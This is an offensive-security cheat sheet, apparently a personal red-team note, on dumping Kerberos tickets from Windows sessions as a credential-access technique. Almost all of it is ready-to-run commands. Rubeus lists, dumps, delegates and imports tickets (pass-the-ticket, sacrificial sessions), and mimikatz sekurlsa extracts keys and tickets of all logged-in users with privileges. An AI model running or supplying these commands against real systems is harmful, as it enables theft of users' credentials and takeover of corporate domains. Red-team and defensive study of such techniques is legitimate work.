 ```yaml
---
title: Kerberos Ticket Dump
---
```


[[notes/mitre-attack/credential-access|Credential Access]] by dumping Kerberos tickets.

# Unprivileged

List tickets in the current session.

=== "klist.exe"
    ~~~ bat
    klist.exe tgt
    klist.exe
    ~~~

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe klist /service:krbtgt
    .\rubeus.exe klist
    .\rubeus.exe triage
    ~~~

Dump tickets in the current session.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe dump /nowrap /service:krbtgt
    .\rubeus.exe dump /nowrap
    ~~~

Get a RC4 TGT for the current user.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe tgtdeleg /nowrap
    ~~~

Import a ticket into the current session.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe ptt /ticket:%KIRBIBASE64%
    ~~~

Import a ticket into a sacrificial session.
To use it steal the token of the new process.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:corp.local /username:jdoe /password:fake /ticket:%KIRBIBASE64%
    ~~~

# Privileged

Dump the TGTs of all logged in users.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe dump /nowrap /service:krbtgt
    ~~~

Dump the TGTs and STs of all logged in users.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe dump /nowrap
    ~~~

=== "[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe privilege::debug token::elevate sekurlsa::ekeys sekurlsa::kerberos sekurlsa::tickets exit
    ~~~

Dump the TGT of a specific session.

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe triage
    .\rubeus.exe dump /service:krbtgt /luid:0x7049f
    ~~~

Untested tools:

- [TGSThief](https://github.com/MzHmO/TGSThief), request ST for other logged on users
